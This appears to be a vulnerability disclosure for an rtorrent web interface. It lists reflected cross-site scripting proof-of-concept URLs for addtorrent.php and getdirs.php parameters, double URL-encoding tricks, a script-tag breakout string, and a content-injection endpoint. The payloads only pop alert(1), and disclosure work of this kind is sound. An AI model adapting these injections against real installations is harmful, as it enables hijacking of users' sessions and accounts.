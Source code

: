https://github.com/rakshasa/rtorrent


Version: 0.9.8


rtorrent

POST
filename:

```https://172.17.0.30/php/addtorrent.php?dir_edit=%2Fdownloads%2Fincoming%2F```

```<script>alert(1)</script>```


Some of the payloads required to be double URL encoded.  An example below:

URL Decoded name[]:

```https://172.17.0.30/php/addtorrent.php?result[]=Success&name[]=ubuntu-24.04-desktop-amd64.iso.torrent<script>alert(1)</script>```

Double URL Encoded name[]:

```https://172.17.0.30/php/addtorrent.php?result[]=Success&name[]=ubuntu-24.04-desktop-amd64.iso.torrent%25%33%63%25%37%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%33%65%25%36%31%25%36%63%25%36%35%25%37%32%25%37%34%25%32%38%25%33%31%25%32%39%25%33%63%25%32%66%25%37%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%33%65```


result[]:

```https://172.17.0.30/php/addtorrent.php?result[]=Success%3cscript%3ealert(1)%3c%2fscript%3e&name[]=ubuntu-24.04-desktop-amd64.iso.torrent&```

Double URL Encoded url:

```https://172.17.0.30/php/addtorrent.php?dir_edit=%2Fdownloads%2Fincoming%2F&url=%25%36%38%25%37%34%25%37%34%25%37%30%25%37%33%25%33%61%25%32%66%25%32%66%25%36%32%25%36%63%25%36%31%25%36%38%25%32%65%25%36%33%25%36%66%25%36%64%25%32%66%25%36%32%25%36%63%25%36%31%25%36%38%25%32%65%25%37%34%25%36%66%25%37%32%25%37%32%25%36%35%25%36%65%25%37%34%25%36%39%25%33%36%25%33%32%25%33%30%25%37%61%25%33%63%25%37%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%33%65%25%36%31%25%36%63%25%36%35%25%37%32%25%37%34%25%32%38%25%33%31%25%32%39%25%33%63%25%32%66%25%37%33%25%36%33%25%37%32%25%36%39%25%37%30%25%37%34%25%33%65```


Bit more complex than the others, had to close tags out and open new ones

```';}}</script><script>alert(1)</script>//```

frame:
```https://172.17.0.30/plugins/_getdir/getdirs.php?dir=&btn=dir_btn&edit=dir_edit&frame=dir_edit_frame'%3b%7d%7d%3c%2f%73%63%72%69%70%74%3e%3c%73%63%72%69%70%74%3ealert(1)%3c%2f%73%63%72%69%70%74%3e%2f%2f&time=1719776075718```

edit:
```https://172.17.0.30/plugins/_getdir/getdirs.php?dir=&btn=dir_btn&edit=dir_edit'%3b%7d%7d%3c%2f%73%63%72%69%70%74%3e%3c%73%63%72%69%70%74%3ealert(1)%3c%2f%73%63%72%69%70%74%3e%2f%2f&frame=dir_edit_frame&time=1719776075718```

btn:
```https://172.17.0.30/plugins/_getdir/getdirs.php?dir=&btn=dir_btn'%3b%7d%7d%3c%2f%73%63%72%69%70%74%3e%3c%73%63%72%69%70%74%3ealert(1)%3c%2f%73%63%72%69%70%74%3e%2f%2f&edit=dir_edit&frame=dir_edit_frame&time=1719776075718```


Content Injection:
There is also a content where a domain hosting content at the root will be loaded into the page

```https://172.17.0.30/plugins/tracklabels/action.php?tracker=<DOMAIN>```
